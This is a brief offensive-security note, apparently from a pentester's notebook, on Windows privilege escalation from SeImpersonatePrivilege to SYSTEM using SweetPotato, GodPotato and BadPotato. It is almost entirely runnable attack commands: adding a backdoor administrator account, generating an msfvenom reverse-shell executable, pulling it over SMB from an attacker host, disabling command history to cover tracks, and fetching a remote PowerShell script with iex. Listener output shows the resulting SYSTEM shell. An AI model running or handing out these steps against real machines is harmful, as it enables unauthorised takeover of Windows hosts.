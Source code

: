 ![](../../attachment/14b1ffee8a4a312672d55a20df40a890.png)

Use Sweet Potato (The best potato), 

> Refer - https://mayfly277.github.io/posts/GOADv2-pwning-part8/#seimpersonateprivilege-to-authoritysystem

> [!NOTE] Update!
> The latest potato is [**GodPotato**](https://github.com/BeichenDream/GodPotato)
> 
> The issue I encountered using **sweetpotato** was that it cannot pass arguments, have to write a batch file and put on target disk to get reverse shell back 
> 
> Godpotato will solve that issue, plus it supports almost any Windows OS
> ```bash
> .\GodPotato.exe -cmd "net user god /add & net localgroup Administrators god /add"
> ```

Prepare RevShell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=1111 -f exe > shell.exe
smbserver.py s . -smb2support -username s -password 
rlwrap -r -f . nc -nlvp 1111
```

On target

```bash
Set-PSReadLineOption -HistorySaveStyle SaveNothing
net use \\$ATTACKER_IP\s /user:s s
copy \\$ATTACKER_IP\s\shell.exe C:\Programdata\shell.exe

# SweetPotato from PowerSharpPack
iex(new-object net.webclient).downloadstring("http://$ATTACKER_IP/Invoke-BadPotato.ps1")
Invoke-BadPotato -Command "C:\Programdata\shell.exe"
```

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [x.x.x.x] from (UNKNOWN) [10.10.130.8] 49995
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```
